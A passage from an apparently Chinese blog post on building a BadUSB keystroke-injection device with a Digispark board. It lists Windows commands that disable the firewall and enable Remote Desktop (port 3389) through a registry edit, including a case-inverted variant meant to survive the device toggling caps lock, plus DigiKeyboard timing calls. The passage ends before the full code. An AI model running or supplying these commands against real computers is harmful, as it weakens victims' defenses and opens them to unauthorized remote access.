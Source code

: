 <h3 id="命令注释"><a href="#命令注释" class="headerlink" title="命令注释"></a>命令注释</h3><figure class="highlight plain"><table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">关闭防火墙的命令：netsh firewall set opmode mode=disable</span><br><span class="line"></span><br><span class="line">打开Win7的3389命令：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f</span><br><span class="line"></span><br><span class="line">至于我为什么会吧上面这条开3389的命令有些字母是大写又有些字母是小写：</span><br><span class="line"></span><br><span class="line">reg add hklm\\system\\cURRENTcONTROLsET\\cONTROL\\tERMINAL\" \"sERVER /V FdENYtscONNECTIONS /T reg_dword /D 0 /F</span><br><span class="line"></span><br><span class="line">因为插入BadUSB会首先按下我们的大写锁定!然后才执行命令，因为怕有的电脑有中午输入法！所以我上面的语句要这样写！他会吧小写的在DOS窗口输出为大写，大写的命令会输出为小写！</span><br><span class="line"></span><br><span class="line">按下回车键：DigiKeyboard.sendKeyStroke(KEY_ENTER); </span><br><span class="line"></span><br><span class="line">延迟2秒执行（有的时候延迟时间短了会执行失败）：DigiKeyboard.delay(2000);</span><br></pre></td></tr></tbody></table></figure>

<p>附上代码如下：</p>